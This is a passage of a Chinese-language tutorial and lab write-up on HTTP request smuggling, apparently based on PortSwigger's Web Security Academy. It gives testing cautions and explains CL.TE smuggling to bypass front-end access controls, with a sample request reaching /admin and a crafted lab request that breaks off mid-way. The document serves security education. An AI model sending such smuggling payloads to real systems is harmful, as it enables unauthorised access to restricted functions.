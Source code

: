 在尝试通过干扰其他请求来确认请求走私漏洞时，应牢记一些重要的注意事项：

- 应使用不同的网络连接将“攻击”请求和“正常”请求发送到服务器。通过同一连接发送两个请求都不会证明该漏洞存在。
- “攻击”请求和“正常”请求应尽可能使用相同的URL和参数名称。这是因为许多现代应用程序根据URL和参数将前端请求路由到不同的后端服务器。使用相同的URL和参数会增加由同一后端服务器处理请求的机会，这对于进行攻击至关重要。
- 在测试“正常”请求以检测来自“攻击”请求的任何干扰时，您正在与应用程序同时接收到的任何其他请求（包括来自其他用户的请求）竞争。您应该在“攻击”请求之后立即发送“正常”请求。如果应用程序忙，则可能需要执行多次尝试以确认漏洞。
- 在某些应用程序中，前端服务器用作负载平衡器，并根据某些负载平衡算法将请求转发到不同的后端系统。如果将您的“攻击”和“正常”请求转发到不同的后端系统，则攻击将失败。这是为什么您可能需要多次尝试才能确认漏洞的另一个原因。
- 如果您的攻击成功干扰了后续请求，但这不是您发送来检测干扰的“正常”请求，则意味着另一个应用程序用户受到了您的攻击的影响。如果继续执行测试，可能会对其他用户造成破坏性影响，因此应谨慎行事。

## 5、利用HTTP请求走私漏洞

### 5.1使用HTTP请求走私绕过前端安全控制

在某些应用程序中，前端Web服务器用于实现某些安全控制，以决定是否允许处理单个请求。允许的请求将转发到后端服务器，在该服务器中，它们被视为已通过前端控件传递。

例如，假设应用程序使用前端服务器实施访问控制限制，则仅在授权用户访问请求的URL的情况下才转发请求。然后，后端服务器将接受每个请求，而无需进一步检查。在这种情况下，可以通过将请求走私到受限URL 来使用HTTP请求走私漏洞来绕过访问控制。

假设当前用户被允许访问，`/home`但不允许`/admin`。他们可以使用以下请求走私攻击来绕过此限制：

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都针对`/home`，因此这些请求将转发到后端服务器。但是，后端服务器看到一个请求`/home`和一个请求`/admin`。它假定（一如既往）请求已通过前端控件传递，因此授予对受限URL的访问权限。

#### 5.1.1 利用HTTP请求走私绕过前端安全控制，CL.TE漏洞

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

构造数据包：

```
POST / HTTP/1.1
Host: 0a7b00c10367fc5e817825cb0057008f.web-security-academy.net
Cookie: session=7weoQ6KCBdPRNEmYeqMZJd2Wqhc7ui4H
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked
```